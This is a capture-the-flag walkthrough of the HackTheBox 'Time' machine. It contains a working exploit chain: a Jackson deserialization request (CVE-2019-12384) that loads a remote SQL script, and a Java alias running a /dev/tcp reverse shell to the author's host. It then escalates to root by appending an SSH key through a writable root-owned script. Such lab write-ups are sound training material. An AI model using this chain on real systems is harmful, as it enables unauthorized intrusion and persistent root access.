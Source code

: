 ```yaml
--- 
title: Time HackTheBox
published: true
tags: htb CVE-2019-12384 jackson fasterxml json sql
---
```


# Recon

`nmap -sC -sV 10.10.10.214`

```
Nmap scan report for 10.10.10.214
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.03 seconds
```

> Note: A open port 80 is always suspicious and should be inspect


Playing around with the Website you can recognize an error with the validate(beta) funcionality. Googleing this error you can find that jackson/fasterxml is used.
CVE-2019-12384 is the one to look for 

# User
## Exploiting

I intercepted the reqest to the website with Burp Suite and according to this [github](https://github.com/jas502n/CVE-2019-12384) put following as request:

> look at the json in the data! Explained [here](http://www.h2database.com/html/features.html#execute_sql_on_connection)

```
POST / HTTP/1.1
Host: 10.10.10.214
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 184
Origin: http://10.10.10.214
DNT: 1
Connection: close
Referer: http://10.10.10.214/
Upgrade-Insecure-Requests: 1

mode=2&data=["ch.qos.logback.core.db.DriverManagerConnectionSource",%20{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT%3d3;INIT%3dRUNSCRIPT%20FROM%20'http://10.10.14.25:8000/inject.sql'"}]
```

Furthermore I created a `inject.sql` with this content:

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInpu
tStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('setsid bash -i &>/dev/tcp/10.10.14.25/4444 0>&1 &')
```

and provided this sql with a webservice started with 

```
python3 -m http.server
```

Simultaneously I started a listener with: 
 
```
nc -lvnp 4444
```

Now I sended the request in BurpSuite and got the reverse shell where I started the listener before

# Root
`/usr/bin/timer_backup.sh` is owned by root and writeable.

Upload the pubkey.
```
echo "echo SSH_PUB_KEY >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```
SSH into the box with root
```
ssh -i ~/.ssh/id_rsa root@10.10.10.214
```
